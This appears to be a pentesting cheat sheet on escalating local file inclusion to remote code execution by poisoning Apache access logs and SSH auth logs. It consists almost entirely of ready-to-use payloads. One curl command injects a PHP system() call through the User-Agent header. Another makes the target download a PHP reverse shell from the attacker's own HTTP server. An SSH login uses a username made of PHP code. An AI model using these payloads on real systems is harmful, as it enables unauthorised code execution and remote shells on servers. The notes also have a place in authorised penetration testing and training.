 # LFI to RCE

## Log Poisoning

### LFI to RCE via Apache Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 



Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR

python -m SimpleHTTPServer 9000 



Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 


file_put_contents('shell.php')                                // What it will be saved locally on the target
file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php

```

### LFI to RCE via SSH Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 



Payload: ssh <?php system($_GET['c']);?>@<target_ip>


Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id

```
